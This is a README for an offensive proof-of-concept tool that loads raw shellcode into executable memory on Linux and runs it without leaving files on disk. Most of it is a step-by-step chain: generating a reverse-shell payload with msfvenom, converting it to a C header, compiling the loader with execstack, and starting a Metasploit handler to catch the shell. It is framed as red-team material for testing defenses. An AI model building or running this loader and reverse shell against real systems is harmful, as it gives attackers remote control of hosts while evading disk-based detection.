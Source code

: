 # In-Memory Shellcode Detonator

A minimalist Linux x86_64 loader that allocates RWX memory and executes raw shellcode entirely in memory, no disk artifacts, no staging files.

---

## Executive Overview

**Objectives & Use Cases**  
- Deliver a compact, single-stage loader for in-memory shellcode detonation.  
- Validate defensive controls by demonstrating pure in-memory detonation techniques.

---

## Technical Details

**Core Features**  
- Memory Allocation (`mmap`): requests a private, anonymous RWX region for payload staging.  
- Payload Injection: copies raw shellcode from a generated header (`shellcode.h`) into the allocated buffer.  
- Direct Execution: casts buffer to a function pointer and transfers execution to shellcode.  
- Minimal Syscalls: only `mmap`, `memcpy`, and invocation—no dynamic linking beyond standard C library.

**Internal Components**  
```
├── shellcode_injector.c   – PoC stub loader (allocates, injects, executes)
├── shellcode             – raw shellcode (generated by msfvenom)
├── shellcode.h           – xxd-generated C header with byte array
└── linux_in-memory_shellcode-detonation_PoC  – compiled binary
```

**Supported Platforms**  
- Linux x86_64 (glibc ≥ 2.17)  
- Tested on Kali Linux 6.x kernel

---

## Installation & Usage

### Prerequisites
- **Build Tools**: `gcc` with C11 support, `make` (optional)  
- **Payload Generator**: `msfvenom` from Metasploit Framework  
- **Payload Conversion**: `xxd` to generate `shellcode.h` from raw bytes  
- **Permissions**: ability to allocate RWX pages (no restrictive SELinux/AppArmor policies)

### Build Steps

1. **Generate Raw Shellcode**  
   ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f raw -o shellcode
   ```
2. **Convert to Header**  
   ```bash
   xxd -i shellcode > shellcode.h
   ```
3. **Compile Loader**  
   ```bash
   gcc -std=c11 -Wall -Wextra -z execstack shellcode_injector.c -o linux_in-memory_shellcode-detonation_PoC
   ```

### Execution Examples

- **Start Listener**  
  ```bash
  msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/shell_reverse_tcp; set LHOST 127.0.0.1; set LPORT 1337; set EXITONSESSION false; exploit -j"
  ```

- **Detonate Payload**  
  ```bash
  ./linux_in-memory_shellcode-detonation_PoC
  ```

---

## References

- Linux `mmap(2)` manual: https://man7.org/linux/man-pages/man2/mmap.2.html  
- msfvenom documentation: https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit-Framework  
- xxd(1) manual (hex dump utility): https://linux.die.net/man/1/xxd  
- Executable space protection (NX bit) – https://en.wikipedia.org/wiki/Executable_space_protection  
- MITRE ATT&CK T1055 – Process Injection  - https://attack.mitre.org/techniques/T1055/
- MITRE ATT&CK T1564 – Hide Artifacts  - https://attack.mitre.org/techniques/T1564/
